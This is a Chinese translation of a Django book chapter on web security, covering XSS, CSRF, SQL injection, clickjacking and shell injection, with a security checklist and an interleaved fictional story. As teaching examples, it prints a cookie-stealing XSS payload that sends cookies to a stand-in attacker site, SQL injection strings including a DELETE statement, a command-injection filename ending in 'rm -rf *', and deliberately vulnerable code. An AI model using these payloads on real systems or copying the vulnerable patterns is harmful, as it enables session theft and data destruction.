


# 第十章：安全

在本章中，我们将讨论以下主题：

+   各种 Web 攻击和对策

+   Django 可以在哪些方面提供帮助，哪些方面不能提供帮助

+   Django 应用程序的安全检查

一些知名的行业报告表明，网站和 Web 应用程序仍然是网络攻击的主要目标之一。然而，2013 年一家领先的安全公司测试的所有网站中，约 86%都存在至少一个严重的漏洞。

将应用程序发布到公共网络中充满了许多危险，从泄露机密信息到拒绝服务攻击。主流媒体头条新闻关注的安全漏洞主要集中在一些漏洞利用上，比如 Heartbleed、Superfish 和 POODLE，这些漏洞对关键的网站应用程序，比如电子邮件和银行业务，产生了不利影响。事实上，人们常常会想知道 WWW 是代表全球网络还是狂野的西部。

Django 的最大卖点之一是其对安全性的高度关注。在本章中，我们将介绍攻击者使用的顶级技术。正如我们将很快看到的，Django 可以在开箱即用的情况下保护您免受大多数攻击。

我相信要保护您的网站免受攻击，您需要像攻击者一样思考。因此，让我们熟悉一下常见的攻击。

# 跨站脚本（XSS）

**跨站脚本**（**XSS**）被认为是当今最普遍的 Web 应用程序安全漏洞，它使攻击者能够在用户查看的网页上执行其恶意脚本（通常是 JavaScript）。通常，服务器会被欺骗以在受信任的内容中提供他们的恶意内容。

恶意代码如何到达服务器？将外部数据输入网站的常见方式如下：

+   表单字段

+   URL

+   重定向

+   诸如广告或分析之类的外部脚本

这些都无法完全避免。真正的问题是当外部数据在未经验证或未经过滤的情况下被使用时（如下图所示）。永远不要相信外部数据：



例如，让我们看一下一段有漏洞的代码，以及如何对其进行 XSS 攻击。强烈建议不要在任何形式中使用此代码：

```py
class XSSDemoView(View):
    def get(self, request):

        # WARNING: This code is insecure and prone to XSS attacks
        #          *** Do not use it!!! ***
        if 'q' in request.GET:
            return HttpResponse("Searched for: {}".format(
                    request.GET['q']))
        else:
            return HttpResponse("""<form method="get">
        <input type="text" name="q" placeholder="Search" value="">
        <button type="submit">Go</button>
        </form>""")
```

这是一个`View`类，当没有任何`GET`参数访问时，它会显示一个搜索表单。如果提交搜索表单，它会显示用户在表单中输入的搜索字符串。

现在在一个过时的浏览器（比如 IE 8）中打开这个视图，并在表单中输入以下搜索词并提交：

```py
<script>alert("pwned")</script>
```

毫不奇怪，浏览器将显示一个带有不祥消息的警报框。请注意，这种攻击在最新的 Webkit 浏览器（如 Chrome）中会失败，并在控制台中显示错误——**拒绝执行 JavaScript 脚本。在请求中找到脚本的源代码**。

如果你想知道一个简单的警报消息会造成什么伤害，记住任何 JavaScript 代码都可以以相同的方式执行。在最坏的情况下，用户的 Cookie 可以通过输入以下搜索词被发送到攻击者控制的站点：

```py
<script>var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);</script>
```

一旦您的 Cookie 被发送，攻击者可能会进行更严重的攻击。

## 为什么你的 Cookie 很有价值？

值得了解的是，为什么 Cookie 是几种攻击的目标。简而言之，访问 Cookie 允许攻击者冒充您，甚至控制您的网络帐户。

要详细了解这一点，您需要了解会话的概念。HTTP 是无状态的。无论是匿名用户还是经过身份验证的用户，Django 都会在一定时间内跟踪他们的活动，管理会话。

会话由客户端端（即浏览器）的“会话 ID”和服务器端存储的类似字典的对象组成。“会话 ID”是一个随机的 32 个字符的字符串，存储为浏览器中的 Cookie。每当用户向网站发出请求时，包括这个“会话 ID”在内的所有 Cookie 都会随请求一起发送。

在服务器端，Django 维护一个会话存储，将此`会话 ID`映射到会话数据。默认情况下，Django 将会话数据存储在`django_session`数据库表中。

用户成功登录后，会话将记录身份验证成功并跟踪用户。因此，cookie 成为后续交易的临时用户身份验证。任何获得此 cookie 的人都可以使用该 Web 应用程序作为该用户，这称为**会话劫持**。

### Django 如何帮助

您可能已经注意到，我的示例是 Django 中实现视图的一种非常不寻常的方式，原因有两个：它没有使用模板进行渲染，也没有使用表单类。它们都有防止 XSS 的措施。

默认情况下，Django 模板会自动转义 HTML 特殊字符。因此，如果您在模板中显示搜索字符串，所有标记都将被 HTML 编码。这使得无法注入脚本，除非您通过将内容标记为安全来明确关闭它们。

在 Django 中使用表单来验证和清理输入也是一种非常有效的对策。例如，如果您的应用程序需要数字员工 ID，则使用`IntegerField`类而不是更宽松的`CharField`类。

在我们的示例中，我们可以在搜索词字段中使用`RegexValidator`类，以限制用户只能使用您的搜索模块识别的字母数字字符和允许的标点符号。尽可能严格地限制用户输入的可接受范围。

### Django 可能无法帮助的地方

Django 可以通过模板中的自动转义来防止 80%的 XSS 攻击。对于剩下的情况，您必须注意：

+   引用所有 HTML 属性，例如，用`<a href="{{link}}">`替换`<a href={{link}}>`

+   使用自定义方法在 CSS 或 JavaScript 中转义动态数据

+   验证所有 URL，特别是针对不安全的协议，如`javascript:`

+   避免客户端 XSS（也称为基于 DOM 的 XSS）

作为对抗 XSS 的一般规则，我建议——输入时过滤，输出时转义。确保您验证和清理（过滤）任何输入的数据，并在发送给用户之前立即转换（转义）它。具体而言，如果您需要支持具有 HTML 格式的用户输入，例如评论，请考虑改用 Markdown。

### 提示

输入时过滤，输出时转义。

## 跨站点请求伪造（CSRF）

**跨站点请求伪造**（**CSRF**）是一种欺骗用户在访问其他网站时对已经经过身份验证的网站进行不需要的操作的攻击。比如，在论坛中，攻击者可以在页面中放置一个`IMG`或`IFRAME`标记，向经过身份验证的网站发送一个精心制作的请求。

例如，以下假的 0x0 图像可以嵌入评论中：

```py

```

如果您已经在另一个标签中登录了 SuperBook，并且网站没有 CSRF 对策，那么将会发布一个非常尴尬的消息。换句话说，CSRF 允许攻击者以您的身份执行操作。

### Django 如何帮助

对抗 CSRF 的基本保护措施是对具有副作用的任何操作使用 HTTP `POST`（或`PUT`和`DELETE`，如果支持）。任何`GET`（或`HEAD`）请求必须用于信息检索，例如只读。

Django 通过嵌入令牌来提供对`POST`、`PUT`或`DELETE`方法的对策。您可能已经熟悉每个 Django 表单模板中提到的``。这是一个必须在提交表单时出现的随机值。

这种工作方式是，攻击者在向您的经过身份验证的站点发送请求时无法猜到令牌。由于令牌是强制性的，并且必须与显示表单时呈现的值匹配，因此表单提交失败，攻击被挫败。

### Django 可能无法帮助的地方

一些人使用`@csrf_exempt`装饰器在视图中关闭 CSRF 检查，特别是对于 AJAX 表单提交。除非您仔细考虑了涉及的安全风险，否则不建议这样做。

## SQL 注入

**SQL 注入**是跨站脚本（XSS）之后 Web 应用程序的第二大常见漏洞。攻击涉及将恶意 SQL 代码输入到在数据库上执行的查询中。这可能导致数据盗窃，通过转储数据库内容，或数据的破坏，比如使用`DROP TABLE`命令。

如果您熟悉 SQL，那么您可以理解以下代码片段。它根据给定的`username`查找电子邮件地址：

```py
name = request.GET['user']
sql = "SELECT email FROM users WHERE username = '{}';".format(name)
```

乍一看，似乎只会返回与作为`GET`参数提到的用户名对应的电子邮件地址。但是，想象一下，如果攻击者在表单字段中输入`' OR '1'='1`，那么 SQL 代码将如下所示：

```py
SELECT email FROM users WHERE username = '' OR '1'='1';
```

由于这个`WHERE`子句将始终为真，您应用程序中所有用户的电子邮件都将被返回。这可能是严重的机密信息泄漏。

同样，如果攻击者愿意，他可以执行更危险的查询，如下所示：

```py
SELECT email FROM users WHERE username = ''; DELETE FROM users WHERE '1'='1';
```

现在所有用户条目都将从您的数据库中删除！

### Django 如何帮助

防范 SQL 注入的措施非常简单。使用 Django ORM 而不是手工编写 SQL 语句。前面的示例应该这样实现：

```py
User.objects.get(username=name).email
```

在这里，Django 的数据库驱动程序将自动转义参数。这将确保它们被视为纯粹的数据，因此它们是无害的。然而，正如我们很快将看到的那样，即使 ORM 也有一些逃生口。

### Django 可能无法帮助的地方

可能会有一些情况需要使用原始 SQL，比如由于 Django ORM 的限制。例如，查询集的`extra()`方法的`where`子句允许原始 SQL。这些 SQL 代码不会受到 SQL 注入的影响。

如果您正在使用低级数据库操作，比如`execute()`方法，那么您可能希望传递绑定参数，而不是自己插入 SQL 字符串。即使这样，强烈建议您检查每个标识符是否已经被正确转义。

最后，如果您使用的是 MongoDB 等第三方数据库 API，则需要手动检查 SQL 注入。理想情况下，您希望在这些接口中只使用经过彻底清理的数据。

## 点击劫持

**点击劫持**是一种误导用户在浏览器中点击隐藏的链接或按钮的手段，当他们本来打算点击其他东西时。这通常是通过使用包含目标网站的不可见 IFRAME 在用户可能点击的虚拟网页上实现的：



由于不可见框架中的操作按钮将与虚拟页面中的按钮完全对齐，用户的点击将在目标网站上执行操作，而不是在虚拟页面上。

### Django 如何帮助

Django 通过使用可以使用几个装饰器进行微调的中间件来保护您的网站免受点击劫持的影响。默认情况下，`'django.middleware.clickjacking.XFrameOptionsMiddleware'`中间件将包含在您的设置文件中的`MIDDLEWARE_CLASSES`中。它通过为每个传出的`HttpResponse`设置`X-Frame-Options`头为`SAMEORIGIN`来工作。

大多数现代浏览器都识别该标头，这意味着该页面不应该在其他域中的框架内。可以使用装饰器（如`@xframe_options_deny`和`@xframe_options_exempt`）为某些视图启用和禁用保护。

## Shell 注入

顾名思义，**shell 注入**或**命令注入**允许攻击者向系统 shell（如`bash`）注入恶意代码。即使 Web 应用程序也使用命令行程序来方便和实现功能。这些进程通常在 shell 中运行。

例如，如果要显示用户给定名称的文件的所有详细信息，一个天真的实现如下：

```py
os.system("ls -l {}".format(filename))
```

攻击者可以将`filename`输入为`manage.py; rm -rf *`并删除目录中的所有文件。一般来说，不建议使用`os.system`。`subprocess`模块是一个更安全的选择（或者更好的是，您可以使用`os.stat()`来获取文件的属性）。

由于 shell 会解释命令行参数和环境变量，因此在其中设置恶意值可以允许攻击者执行任意系统命令。

### Django 如何帮助

Django 主要依赖于 WSGI 进行部署。由于 WSGI 不像 CGI 那样根据请求设置环境变量，因此在默认配置中，该框架本身不容易受到 shell 注入的影响。

然而，如果 Django 应用程序需要运行其他可执行文件，则必须小心以最少的权限运行它。任何外部来源的参数在传递给这些可执行文件之前必须经过清理。此外，如果不需要 shell 插值，可以使用`subprocess`模块的`call()`来以默认的`shell=False`参数安全地处理参数来运行命令行程序。

## 列表还在继续

这里有数百种攻击技术，我们没有涵盖到，而且随着新攻击的发现，这个列表每天都在增长。重要的是要保持对它们的了解。

Django 的官方博客([`www.djangoproject.com/weblog/`](https://www.djangoproject.com/weblog/))是了解最新发现的漏洞的好地方。Django 的维护者们积极尝试通过发布安全更新来解决这些问题。强烈建议您尽快安装它们，因为它们通常对您的源代码需要很少或没有更改。

你的应用程序的安全性取决于它最薄弱的环节。即使你的 Django 代码可能完全安全，但你的堆栈中有很多层和组件。更不用说人类，他们也可以被各种社会工程技术欺骗，比如网络钓鱼。

一个领域的漏洞，比如操作系统、数据库或 Web 服务器，可以被利用来访问系统的其他部分。因此，最好对您的堆栈有一个整体的视图，而不是分别查看每个部分。

### 注意

安全室

史蒂夫一走出会议室，就拿出手机，给他的团队发了一封简洁的电子邮件：“可以了！”在过去的 60 分钟里，他被董事们询问了关于发布的每一个可能的细节。令史蒂夫恼火的是，Madam O 在整个时间里保持着冷静的沉默。

他走进自己的小屋，再次打开幻灯片。在引入清单后，琐碎错误的数量急剧下降。不可能在发布版中包含的基本功能是通过与 Hexa 和 Aksel 等乐于助人的用户进行早期合作解决的。

由于 Sue 出色的营销活动，Beta 网站的注册人数已经超过了 9,000 人。史蒂夫在他的职业生涯中从未见过如此多的对于一个发布的兴趣。就在那时，他注意到桌子上的报纸有些奇怪。

十五分钟后，他冲下 21 楼的过道。最后，有一扇标有 2109 的门。当他打开门时，他看到埃文正在处理一个看起来像白色塑料玩具笔记本电脑的东西。“你为什么要圈出填字游戏的线索？你本可以打电话给我，”史蒂夫问道。

“我想给你看点东西，”他笑着回答道。他拿起笔记本电脑走了出去。他停在 2110 房间和消防出口之间。他跪下来，用右手摸索着褪色的墙纸。“这里一定有个门闩，”他喃喃自语。

然后，他的手停了下来，转动了一把从墙上微微突出的把手。墙的一部分转动并停了下来。它露出了一个用红灯光照亮的房间的入口。屋顶上悬挂着一个标志，上面写着“21B 安全室”。

当他们进入时，许多屏幕和灯光自行打开。墙上的一个大屏幕上写着“需要验证。插入密钥。”埃文稍微欣赏了一下，然后开始连接他的笔记本电脑。

“埃文，我们在这里做什么？”史蒂夫压低声音问道。埃文停下来，“哦，对了。我想我们在测试完成之前还有一些时间。”他深吸了一口气。

“还记得奥女士要我调查哨兵代码库吗？我做到了。我意识到我们得到的是经过审查的源代码。我是说我可以理解在某些地方删除一些密码，但成千上万行的代码呢？我一直在想——肯定有什么事情发生了。

“所以，通过我的访问存档，我找到了一些旧的备份。磁介质未被擦除的几率出奇地高。无论如何，我能够恢复大部分被擦除的代码。你不会相信我看到了什么。

“哨兵不是一个普通的社交网络项目。它是一个监视计划。也许是人类已知的最大的监视计划。在冷战后，一群国家加入成立了一个网络，共享情报信息。一个由人类和哨兵组成的网络。哨兵是拥有难以置信的计算能力的半自主计算机。有人认为它们是量子计算机。

“哨兵被部署在世界各地的数千个战略位置——主要是海床，那里通过了主要的光纤电缆。它们以地热能源为动力，几乎不可摧毁。它们几乎可以访问大多数国家的几乎所有互联网通信。

“也许是在九十年代的某个时候，可能是出于对公众审查的担忧，哨兵计划被关闭了。这就是真正有趣的地方。代码历史表明，哨兵的开发是由一个名叫 Cerebos 的人继续的。代码已经从监视能力大大增强，发展成了一种类似于大规模并行超级计算机的东西。一个数值计算的野兽，对任何加密算法都构成了重大挑战。

“还记得那次入侵吗？我觉得很难相信在超级英雄到达之前没有任何进攻性行动。所以，我做了一些研究。S.H.I.M.的网络安全设计为五个同心圆。我们，员工，处于最外层，权限最低的环，由索伦保护。内部环采用了越来越强大的加密算法。这个房间在 4 级。

“我猜——在我们知道入侵之前很久，SAURON 的所有系统都已经被攻破了。系统崩溃，对那些机器人来说几乎是小菜一碟。我刚刚看了日志。这次攻击是极有针对性的——从 IP 地址到登录，所有的东西都是事先知道的。”

“内鬼？”史蒂夫惊恐地问道。

“是的。然而，哨兵只需要在 5 级时才需要帮助。一旦它们获得了 4 级的公钥，它们就开始攻击 4 级系统。听起来很疯狂，但这就是它们的策略。”

“为什么疯狂？”

“嗯，世界上大部分的在线安全都是基于公钥密码学或非对称密码学。它基于两个密钥：一个公钥，一个私钥。尽管在数学上相关——如果你有另一个密钥，要找到一个密钥在计算上是不可行的。”

“你是说哨兵网络可以？”

“事实上，它们可以用于更小的密钥。根据我现在正在进行的测试，它们的能力已经显著增长。按照这个速度，它们应该在不到 24 小时内准备好进行另一次攻击。”

“该死，那时候 SuperBook 上线了！”

# 一个方便的安全清单。

安全不是事后想到的，而是写应用程序的方式的一部分。然而，作为人类，有一个清单可以提醒你常见的遗漏是很方便的。

以下要点是在将 Django 应用程序公开之前应执行的最低安全检查：

+   不要相信来自浏览器、API 或任何外部来源的数据：这是一个基本规则。确保验证和清理任何外部数据。

+   不要将`SECRET_KEY`保存在版本控制中：作为最佳实践，从环境中选择`SECRET_KEY`。查看`django-environ`包。

+   不要以纯文本形式存储密码：存储应用程序密码哈希。还要添加一个随机盐。

+   不要记录任何敏感数据：从日志文件中过滤掉机密数据，如信用卡详细信息或 API 密钥。

+   任何安全交易或登录都应使用 SSL：请注意，与您在同一网络中的窃听者可能会监听您的 Web 流量，如果不是在 HTTPS 中。理想情况下，您应该为整个站点使用 HTTPS。

+   避免使用重定向到用户提供的 URL：如果您有重定向，例如`http://example.com/r?url=http://evil.com`，则始终检查白名单域。

+   即使对已验证的用户也要检查授权：在执行任何具有副作用的更改之前，请检查已登录用户是否被允许执行。

+   使用最严格的正则表达式：无论是您的`URLconf`还是表单验证器，都必须避免懒惰和通用的正则表达式。

+   不要将 Python 代码保存在 Web 根目录中：如果以纯文本形式提供，这可能导致源代码意外泄漏。

+   使用 Django 模板而不是手动构建字符串：模板具有防止 XSS 攻击的保护。

+   使用 Django ORM 而不是 SQL 命令：ORM 提供了防止 SQL 注入的保护。

+   对于具有副作用的任何操作，请使用 Django 表单和`POST`输入：对于简单的投票按钮使用表单可能看起来有些多余。但是请这样做。

+   应启用和使用 CSRF：如果您使用`@csrf_exempt`装饰器豁免某些视图，则要非常小心。

+   确保 Django 和所有软件包都是最新版本：计划更新。它们可能需要对您的源代码进行一些更改。但是它们也带来了全新的功能和安全修复。

+   限制用户上传文件的大小和类型：允许大文件上传可能会导致拒绝服务攻击。拒绝上传可执行文件或脚本。

+   有备份和恢复计划：由于墨菲定律，您可以计划不可避免的攻击、灾难或任何其他类型的停机。确保您经常备份以最小化数据丢失。

其中一些可以使用 Erik 的 Pony Checkup 在[`ponycheckup.com/`](http://ponycheckup.com/)自动检查。但我建议您打印或复制此检查表并将其贴在您的桌子上。

请记住，这个列表绝不是详尽无遗的，也不能替代专业的安全审计。

# 总结

在本章中，我们看了影响网站和 Web 应用程序的常见攻击类型。在许多情况下，为了清晰起见，我们对技术的解释进行了简化，但这也牺牲了细节。然而，一旦我们了解了攻击的严重性，我们就能欣赏 Django 提供的对策。

在我们的最后一章中，我们将更详细地查看预部署活动。我们还将研究各种部署策略，例如基于云的主机用于部署 Django 应用程序。
